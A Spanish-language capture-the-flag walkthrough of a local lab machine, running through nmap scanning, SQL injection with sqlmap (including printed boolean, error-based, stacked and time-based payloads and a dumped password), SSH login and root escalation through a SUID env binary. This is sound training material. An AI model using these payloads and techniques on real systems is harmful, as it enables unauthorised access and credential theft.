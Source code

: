 #sqlmap #sqli #gtfobins #env #suid

![](../../../Images/Pasted%20image%2020240921182525.png)

# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH y un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con un panel de inicio de sesión. Comprobando los campos del formulario si contienen una posible vulnerabilidad SQLi, comprobamos que el campo de usuario es vulnerable.

![](../../../Images/Pasted%20image%2020240923102252.png)
# Usuario Dylan

Utilizando la herramienta SQLMap realizamos la autoexplotación de la vulnerabilidad encontrada para extraer datos interesantes. Pero, antes de todo, capturamos la petición GET con Burpsuite.

![](../../../Images/Pasted%20image%2020240923103040.png)


Ahora pasamos la petición a SLQMap y le dejamos trabajar.

```
> sqlmap -r req.txt -D register -T users --dump                                                                                     
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:34:00 /2024-09-23/

[12:34:00] [INFO] parsing HTTP request from 'req.txt'
[12:34:00] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:34:00] [INFO] resuming back-end DBMS 'mysql' 
[12:34:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-5829' OR 2077=2077#&password=admin&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=admin' OR (SELECT 4254 FROM(SELECT COUNT(*),CONCAT(0x7176707071,(SELECT (ELT(4254=4254,1))),0x7171707a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ryzS&password=admin&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=admin';SELECT SLEEP(5)#&password=admin&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))TFsI)-- nAJP&password=admin&submit=
---
[12:34:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:34:02] [INFO] fetching columns for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'username'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] resumed: 'passwd'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] fetching entries for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'KJSDFG789FGSDF78'
[12:34:02] [INFO] resumed: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[12:34:02] [INFO] table 'register.users' dumped to CSV file '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[12:34:02] [INFO] fetched data logged to text files under '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2'
[12:34:02] [WARNING] your sqlmap version is outdated

[*] ending @ 12:34:02 /2024-09-23/
```

De esta forma conseguimos un nombre de usuario y una contraseña. 

Ahora podemos iniciar sesión en el servicio SSH abierto en el puerto 22.

```
ssh dylan@$target                                                                                                                   
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.9.7-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@3a52fa45bcbe:~$ 
```

# Escalada de privilegios

Haciendo una investigación a nivel local del sistema descubrimos el binario ``/usr/bin/env`` con permisos SUID.

```
> find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 72712 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 44808 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 72072 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59976 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
```

Ahora nos podemos dirigir al sitio web [GTFOBins](https://gtfobins.github.io/) para descubrir como explotar está vulnerabilidad.

![](../../../Images/Pasted%20image%2020240923103932.png)

Como sudo está desactivado podemos ahorrarnos la primera línea y apuntar directamente a la ruta del binario, consiguiendo así rootear la máquina.

![](../../../Images/Pasted%20image%2020240923104053.png)